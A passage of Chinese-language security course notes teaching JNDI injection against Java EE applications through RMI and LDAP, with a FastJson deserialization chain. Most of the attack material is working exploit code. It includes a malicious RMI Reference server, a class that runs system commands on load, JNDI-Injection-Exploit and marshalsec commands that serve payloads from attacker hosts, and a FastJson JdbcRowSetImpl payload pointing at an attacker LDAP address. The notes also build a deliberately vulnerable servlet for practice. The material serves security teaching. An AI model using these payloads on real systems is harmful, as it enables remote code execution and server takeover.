# 037-安全开发-JavaEE应用&JNDI注入&RMI服务&LDAP服务&JDK绕过&调用链类


## 目录
- [知识点](#知识点)
- [演示案例](#演示案例)
- [JDK版本更替影响](#jdk版本更替影响)
- [思考明白](#思考明白)
- [JNDI注入-RMI&LDAP服务](#jnndi注入-rmildap服务)
  - [JNDI远程调用-JNDI-Injection](#jnndi远程调用-jndi-injection)
  - [JNDI远程调用-marshalsec](#jnndi远程调用-marshalsec)
  - [JNDI-Injection & marshalsec 实现原理](#jnndi-injection--marshalsec-实现原理)
  - [JNDI-Injection & marshalsec 区别](#jnndi-injection--marshalsec-区别)
- [JNDI注入-FastJson漏洞结合](#jnndi注入-fastjson漏洞结合)
- [JNDI注入-JDK高版本注入绕过](#jnndi注入-jdk高版本注入绕过)
- [涉及难点总结](#涉及难点总结)


## 知识点：
1. **JavaEE-JNDI注入-RMI&LDAP**：JNDI注入是JavaEE中常见的安全漏洞，核心是利用JNDI服务（如RMI、LDAP）的远程调用机制，诱导目标系统加载恶意类并执行代码。RMI（远程方法调用）和LDAP（轻量级目录访问协议）是JNDI支持的两种主要服务，也是注入攻击的常用载体。
2. **JavaEE-漏洞结合-FastJson链**：FastJson是Java中常用的JSON解析库，若其对用户输入的JSON数据处理不当（如未限制`@type`字段），攻击者可构造恶意JSON触发JNDI注入，形成“FastJson反序列化→JNDI调用→远程代码执行”的攻击链。
3. **JavaEE-漏洞条件-JDK版本绕过**：JNDI注入的利用受JDK版本限制，高版本JDK通过新增安全配置（如`trustURLCodebase`）限制了远程类加载，需特定技术绕过这些限制才能成功利用。


## 演示案例：
- JNDI注入-RMI&LDAP服务：通过搭建RMI/LDAP服务，演示如何利用`InitialContext.lookup()`触发远程类加载和代码执行。
- JNDI注入-FastJson漏洞结合：通过构造恶意JSON数据，利用FastJson的`@type`字段触发JNDI注入，实现远程代码执行。
- JNDI注入-JDK高版本注入绕过：针对高版本JDK的安全限制，演示如何通过特殊手段（如利用本地类、调整攻击链）绕过限制。




## JDK版本更替影响：
JDK版本的更新会不断修复JNDI注入相关的安全漏洞，主要通过限制远程类加载、增加安全配置等方式。不同版本的限制如下（后续“高版本绕过”部分会详细说明）：




## 思考明白：
- **什么是JNDI注入**：JNDI注入是指攻击者通过控制JNDI服务的lookup参数，诱导目标系统从恶意服务器加载并执行恶意类，最终实现远程代码执行的攻击方式。
- **为什么有JNDI注入**：JNDI的`lookup()`方法支持从远程服务（如RMI、LDAP）获取对象，若该方法的参数可控，攻击者可构造恶意URL，使目标系统加载远程恶意类。
- **JNDI注入安全问题**：核心风险是远程代码执行，攻击者可通过此漏洞控制目标服务器，窃取数据、植入后门等。
- **JNDI注入利用条件**：目标系统需调用`InitialContext.lookup()`且参数可控；目标JDK版本存在漏洞（或可绕过限制）；攻击者可控制RMI/LDAP服务或恶意类服务器。

参考：https://blog.csdn.net/dupei/article/details/120534024


## #JNDI注入-RMI&LDAP服务
JNDI全称为 Java Naming and Directory Interface（Java命名和目录接口），是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。

- **RMI**：远程方法调用注册表，允许程序调用远程主机上的对象方法。
- **LDAP**：轻量级目录访问协议，用于访问和维护分布式目录信息服务。


### 调用检索：
Java为了将Object对象存储在Naming或Directory服务下，提供了Naming Reference功能，对象可以通过绑定Reference存储在Naming或Directory服务下，比如RMI、LDAP等。关键触发点是`javax.naming.InitialContext.lookup()`方法，当该方法的参数可控时，可能导致JNDI注入。

在RMI服务中调用了`InitialContext.lookup()`的类有：
```java
// 这些类在特定操作中会调用lookup()，若参数可控则可能触发注入
org.springframework.transaction.jta.JtaTransactionManager.readObject()
com.sun.rowset.JdbcRowSetImpl.execute()
javax.management.remote.rmi.RMIConnector.connect()
org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)
```

在LDAP服务中调用了`InitialContext.lookup()`的类有：
```java
// 这些类的lookup相关方法若参数可控，可能成为注入入口
InitialDirContext.lookup()
Spring LdapTemplate.lookup()
LdapTemplate.lookupContext()
```


#### JNDI远程调用-JNDI-Injection
通过创建RMI/LDAP远程服务，诱导目标系统调用`lookup()`方法加载恶意类，实现代码执行。

- 创建一个rmi/ldap等远程服务调用**实例化对象**：
  ```java
  // 初始化JNDI上下文，用于后续的远程服务调用
  InitialContext ini = new InitialContext();
  ```

- 调用rmi/ldap等服务对象类（远程服务）= 远程地址的一个class文件被执行：
  ```java
  // 调用LDAP服务，参数为攻击者控制的恶意LDAP地址
  ini.lookup("ldap://192.168.93.130:1389/edg7om");
  // 调用RMI服务，参数为攻击者控制的恶意RMI地址
  ini.lookup("rmi://192.168.93.130:1099/lnl0yp");
  ```


基于工具自主定义（节省下一个工具编译步骤）：
1. 使用利用工具生成调用地址  
   `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A xx.xx.xx.xx`  
   （注：`-C "calc"`指定要执行的命令（如打开计算器），`-A`指定攻击者服务器IP）

   

2. 使用远程调用  
   目标系统调用`lookup()`方法时，会连接工具生成的恶意地址，加载并执行恶意类。

   


#### JNDI远程调用-marshalsec
marshalsec是另一个常用的JNDI注入利用工具，需手动编译恶意类并部署，步骤如下：

##### 1. 创建调用对象，编译调用对象  
   编写包含恶意代码的Java类（如执行系统命令），并编译为class文件。

   

   `javac .\TestJNDI.java`  
   （特别注意：要保证java和javac的版本一致，且建议使用JDK 1.8低版本如1.8.0_112，高版本可能限制类加载）


##### 2. 将生成的Class存放访问路径，并检查是否可访问到  
   将编译好的`TestJNDI.class`部署到Web服务器（如phpstudy），确保目标系统可通过HTTP访问该class文件。

   

   


##### 3. 使用利用工具生成调用协议（rmi,ldap）  
   通过marshalsec启动RMI/LDAP服务，指向恶意class文件的URL：
   ```bash
   # 启动LDAP服务，指向存放恶意类的HTTP地址
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://0.0.0.0/#Test
   # 启动RMI服务，指向存放恶意类的HTTP地址
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://47.243.50.47/TestJndi
   ```

   


##### 4. 使用远程调用  
   目标系统调用`lookup()`方法，连接marshalsec启动的服务，加载并执行恶意类：
   ```java
   // 调用LDAP服务加载Test类
   new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/Test");
   // 调用RMI服务加载Test类
   new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/Test");
   ```

   

   

   


### JNDI-Injection & marshalsec 实现原理：
以RMI调用为例，核心流程是通过RMI服务绑定恶意类引用，诱导目标系统加载并执行：

1. **启动RMI注册表**：监听指定端口（通常是1099），用于管理远程对象的注册和查找。
   ```java
   Registry registry = LocateRegistry.createRegistry(1099);
   ```
   这里，`createRegistry(1099)` 方法启动 RMI 注册表，并监听在端口 1099 上。


2. **注册远程对象**：服务器创建`Reference`对象（包含恶意类信息），包装后绑定到RMI注册表。
   ```java
   // Reference参数说明：
   // className：远程加载时使用的类名
   // classFactory：需要实例化的类名（恶意类）
   // classFactoryLocation：恶意类的远程地址（支持file/ftp/http等）
   Reference reference = new Reference("Calc", "Calc", "http://localhost/");
   // 将Reference包装为RMI可识别的对象
   ReferenceWrapper wrapper = new ReferenceWrapper(reference);
   // 绑定到注册表，名称为"calc"
   registry.bind("calc", wrapper);
   ```


3. **客户端查找远程对象**：目标系统通过`lookup()`方法从RMI注册表获取恶意对象的代理。
   ```java
   Object remoteObject = context.lookup("rmi://47.94.236.117:1099/calc");
   ```


4. **触发恶意代码执行**：目标系统在获取代理对象时，会从`classFactoryLocation`下载恶意类（如`Calc.class`）并实例化，构造方法中的恶意代码（如执行系统命令）被执行。


**完整代码示例**：
```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Reference;
import java.rmi.server.ReferenceWrapper;

public class RMIServer {

    public static void main(String[] args) throws Exception {
        // 1. 创建 RMI 注册表并监听在 1099 端口上
        Registry registry = LocateRegistry.createRegistry(1099);

        // 2. 创建包含恶意类信息的 Reference 对象
        // className: 远程加载时使用的类名
        // classFactory: 要实例化的恶意类名
        // classFactoryLocation: 恶意类的远程地址（HTTP服务器）
        Reference reference = new Reference("Calc", "Calc", "http://localhost/");

        // 3. 将Reference包装为RMI可处理的对象
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);

        // 4. 绑定到RMI注册表，名称为"calc"
        registry.bind("calc", wrapper);
    }
}
```

```java
import java.lang.Runtime;

// 恶意类：构造方法中执行系统命令（打开远程桌面）
public class Calc {
    public Calc() throws Exception{
        Runtime.getRuntime().exec("mstsc");
    }
}
```


### JNDI-Injection & marshalsec 区别：
两者都是JNDI注入利用工具，但对不同JDK版本的支持不同：

| 工具\服务\JDK版本     | JDK 17 | JDK 11 | JDK 8u362 | JDK 8u112 |
| --------------------- | ------ | ------ | --------- | --------- |
| LDAP - marshalsec     | 支持   | 支持   | 支持      | 支持      |
| RMI - marshalsec      | 不支持 | 不支持 | 不支持    | 支持      |
| LDAP - JNDI-Injection | 不支持 | 不支持 | 不支持    | 支持      |
| RMI - JNDI-Injection  | 不支持 | 不支持 | 不支持    | 支持      |


**关键结论**：
1. RMI和LDAP都可用于远程调用恶意类执行代码。
2. 攻击中常用`jndi-inject`和`marshalsec`工具生成恶意服务。
3. JDK高版本会限制RMI和LDAP的利用（`marshalsec`对LDAP有部分高版本绕过能力）。
4. 除了直接调用`InitialContext.lookup()`，其他间接调用该方法的类（如`JdbcRowSetImpl`）也可能成为注入入口。





## JNDI注入-FastJson漏洞结合
**背景**：JavaEE应用中若使用FastJson解析用户提交的JSON数据，且未限制`@type`字段，可能触发反序列化漏洞，结合JNDI注入实现远程代码执行。

**思路**：利用`InitialContext.lookup()`在`JdbcRowSetImpl`类中的调用，通过FastJson的`@type`字段指定该类，并注入恶意JNDI地址。


### 1、报错判断FastJson（黑盒：数据写错，发现返回包是对应的fastjson包）  
向目标系统提交错误的JSON数据，若返回信息中包含`com.alibaba.fastjson`相关字段，可判断使用了FastJson解析。




### 2、创建对应的FastJson项目  
新建JavaWeb项目，使用FastJson解析用户输入的JSON数据，模拟存在漏洞的环境。






**核心代码**：
```java
// 导入必要的包
package org.example.fsjndi;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import org.example.fsjndi.HelloServlet;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

// 定义一个映射为 "/json" 的Servlet，处理POST请求
@WebServlet("/json")
public class Fsweb extends HelloServlet {

    // 重写doPost方法，处理用户提交的JSON数据
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {

        // 从请求参数"str"中获取JSON数据
        String jsondata = req.getParameter("str");

        // 打印接收到的JSON数据到控制台
        System.out.println(jsondata);

        // 使用FastJson解析JSON数据为JSONObject（漏洞点：未限制@type字段）
        JSONObject jsonObject = JSON.parseObject(jsondata);

        // 打印解析后的JSONObject
        System.out.println(jsonObject);
    }
}
```

**前端页面（用于提交数据）**：
```jsp
<%@ page contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<!DOCTYPE html>
<html>
<head>
    <title>JSP - Hello World</title>
</head>
<body>
<h1><%= "Hello World!" %>
</h1>
<br/>
<a href="hello-servlet">Hello Servlet</a>
<form action="/json" method="post">
    please input json data:<input type="text" name="str"><br>
    <input type="submit" value="提交">
</form>
</body>
</html>
```


### 3、生成远程调用方法  
使用`JNDI-Injection-Exploit`工具启动恶意LDAP/RMI服务，指定要执行的命令（如打开计算器）：
```cmd
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 192.168.93.130
```




### 4、提交JSON数据Payload  
构造包含`@type`字段的恶意JSON，指定`JdbcRowSetImpl`类，并注入工具生成的LDAP地址：
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.93.130:1389/7etyok","autoCommit":true}
```
- `@type`：指定FastJson反序列化的目标类为`JdbcRowSetImpl`。
- `dataSourceName`：注入恶意LDAP地址，`JdbcRowSetImpl`在初始化时会调用`lookup()`方法解析该地址。
- `autoCommit`：触发`JdbcRowSetImpl`的`setAutoCommit()`方法，间接调用`lookup()`。



